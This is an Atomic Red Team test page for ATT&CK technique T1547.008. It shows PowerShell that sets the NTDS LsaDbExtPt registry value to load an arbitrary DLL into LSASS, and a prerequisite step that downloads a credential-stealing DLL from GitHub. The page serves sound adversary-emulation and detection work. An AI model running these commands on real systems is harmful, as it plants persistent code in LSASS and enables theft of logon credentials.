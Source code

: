 # T1547.008 - Boot or Logon Autostart Execution: LSASS Driver
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/008)
<blockquote>

Adversaries may modify or add LSASS drivers to obtain persistence on compromised systems. The Windows security subsystem is a set of components that manage and enforce the security policy for a computer or domain. The Local Security Authority (LSA) is the main component responsible for local security policy and user authentication. The LSA includes multiple dynamic link libraries (DLLs) associated with various other security functions, all of which run in the context of the LSA Subsystem Service (LSASS) lsass.exe process.(Citation: Microsoft Security Subsystem)

Adversaries may target LSASS drivers to obtain persistence. By either replacing or adding illegitimate drivers (e.g., [Hijack Execution Flow](https://attack.mitre.org/techniques/T1574)), an adversary can use LSA operations to continuously execute malicious payloads.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Modify Registry to load Arbitrary DLL into LSASS - LsaDbExtPt](#atomic-test-1---modify-registry-to-load-arbitrary-dll-into-lsass---lsadbextpt)


<br/>

## Atomic Test #1 - Modify Registry to load Arbitrary DLL into LSASS - LsaDbExtPt
The following Atomic will modify an undocumented registry key that may be abused to load a arbitrary DLL into LSASS. 

Upon execution, the registry key will be modified and a value will contain the path to the DLL. 
Reference: https://blog.xpnsec.com/exploring-mimikatz-part-1/ and source https://github.com/oxfemale/LogonCredentialsSteal
Note that if any LSA based protection is enabled, this will most likely not be successful with LSASS.exe loading the DLL.

**Supported Platforms:** Windows


**auto_generated_guid:** 8ecef16d-d289-46b4-917b-0dba6dc81cf1





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_path | Module to be loaded into LSASS | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;lsass_lib.dll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NTDS -Name LsaDbExtPt -Value "#{dll_path}"
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\NTDS" -Name "LsaDbExtPt" -ErrorAction Ignore | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: lsass_lib.dll must exist on disk at specified location (#{dll_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/oxfemale/LogonCredentialsSteal/raw/53e74251f397ddeab2bd1348c3ff26d702cfd836/lsass_lib/x64/Release/lsass_lib.dll" -UseBasicParsing -OutFile "#{dll_path}"
```




<br/>
